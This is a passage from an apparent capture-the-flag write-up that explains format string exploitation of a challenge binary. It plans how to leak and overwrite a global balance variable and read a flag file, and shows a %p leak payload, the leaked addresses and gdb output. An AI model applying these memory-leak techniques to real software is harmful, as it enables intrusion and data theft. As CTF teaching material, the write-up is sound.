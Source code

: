 ##### use_tapes():

This function is only called by `buy_repair_kit` once the condition is satisfied. However we do find that use_tapes() asks for our experience and prints our experience using `printf(experience)`. Another thing to notice in this function is that the flag is read from `flag.txt` into the variable `flag` however it is not printed out. Luckily for us, we observe just another format string vulnerability here, i.e `printf(experience)`. Since we have understood how printf() can be used to leak data from memory, we will use the same concept here to leak the flag!

#### Exploitation:

Now that we have understood the binary and a few other concepts related to the challenge, our logic for exploitation is pretty simple:

- call the function `check_leaks` to obtain the address leak for the global variable `bal` with the help of the format string vullnerability.
- call the function `check_leaks` again to change the value in the global variable `bal` from 100 to 200.
- call the function `buy_repair_kit()`, pass the check so that the function `use_tapes()` is called.
- Once `use_tapes` is called, make use of the format string vulnerability to simply leak the flag!

Let's begin the exploit by going through each of the above four steps.

##### Leaking the address of the global variable "bal":

This might seem a bit tricky and confusing at first, but once we start to analyse and dig in deeper, it will become more and more clearer. We will be leaking the address of bal from the `check_leaks()` function. Thus let us assume our payload to be something of this sort:

`payload = 'aaaaaaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'`

With this payload, our output is:

```
aaaaaaaa 0x7fb885c53a03 (nil) 0x7fb885b79142 0x7ffcd0ad0140 (nil) 0x6161616161616161 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fb885c5000a 0x7fb885aed546 0x55efa9bb0560 0xe65c75d40c88e400 0x7ffcd0ad01d0 0x55efa9bb0532 0x31007ffcd0ad02c0 0xe65c75d40c88e400 (nil)
```

Upon noticing closely, the value at the 6th offset i.e `0x6161616161616161` is nothing but our input string `aaaaaaaa`. We find many other addresses such libc or code addresses. We are however interested in the the address leaked at the 18th offset i.e `0x55efa9bb0560`. Why this address? Well first off wherever our global variable `bal` is stored in memory, its offset from the `code_base` address won't change! Not just the `code_base`, but from any given code address, the offset always remains constant! The address of the global variable `bal` can be found using the command `i var bal` in gdb (Or one can simply use ida/ ghidra for finding the address). As we can see:

```
gdb-peda$ i var bal
All variables matching regular expression "bal":

File global-locale.c:
39: struct __locale_struct _nl_global_locale;

File malloc.c:
1611: static size_t global_max_fast;

File resolv_conf.c:
80: static struct resolv_conf_global *global;

File rtld.c:
278:  struct rtld_global _rtld_global;
306:  struct rtld_global_ro _rtld_global_ro;

Non-debugging symbols:
0x000055efa9bb2d68  __do_global_dtors_aux_fini_array_entry
0x000055efa9bb3010  bal
```